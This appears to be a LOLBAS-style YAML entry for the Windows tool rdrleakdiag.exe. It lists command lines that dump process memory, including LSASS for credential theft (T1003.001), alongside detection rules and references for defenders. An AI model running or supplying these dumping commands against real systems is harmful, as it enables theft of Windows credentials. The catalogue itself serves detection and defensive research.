 ```yaml
---
Name: rdrleakdiag.exe
Description: Microsoft Windows resource leak diagnostic tool
Author: 'John Dwyer'
Created: 2022-05-18
Commands:
  - Command: rdrleakdiag.exe /p 940 /o c:\evil /fullmemdmp /wait 1
    Description: Dump process by PID and create a dump file (Creates files called minidump_<PID>.dmp and results_<PID>.hlk).
    Usecase: Dump process by PID.
    Category: Dump
    Privileges: User
    MitreID: T1003
    OperatingSystem: Windows
  - Command: rdrleakdiag.exe /p 832 /o c:\evil /fullmemdmp /wait 1
    Description: Dump LSASS process by PID and create a dump file (Creates files called minidump_<PID>.dmp and results_<PID>.hlk).
    Usecase: Dump LSASS process.
    Category: Dump
    Privileges: Administrator
    MitreID: T1003.001
    OperatingSystem: Windows
  - Command: rdrleakdiag.exe /p 832 /o c:\evil /fullmemdmp /snap
    Description: After dumping a process using /wait 1, subsequent dumps must use /snap (Creates files called minidump_<PID>.dmp and results_<PID>.hlk).
    Usecase: Dump LSASS process mutliple times.
    Category: Dump
    Privileges: Administrator
    MitreID: T1003.001
    OperatingSystem: Windows
Full_Path:
  - Path: c:\windows\system32\rdrleakdiag.exe
  - Path: c:\Windows\SysWOW64\rdrleakdiag.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_process_dump_rdrleakdiag.yml
  - Elastic: https://www.elastic.co/guide/en/security/current/potential-credential-access-via-windows-utilities.html
  - Elastic: https://github.com/elastic/detection-rules/blob/5bdf70e72c6cd4547624c521108189af994af449/rules/windows/credential_access_cmdline_dump_tool.toml
Resources:
  - Link: https://twitter.com/0gtweet/status/1299071304805560321?s=21
  - Link: https://www.pureid.io/dumping-abusing-windows-credentials-part-1/
  - Link: https://github.com/LOLBAS-Project/LOLBAS/issues/84
Acknowledgement:
  - Person: Grzegorz Tworek
    Handle: '@0gtweet'
---
```

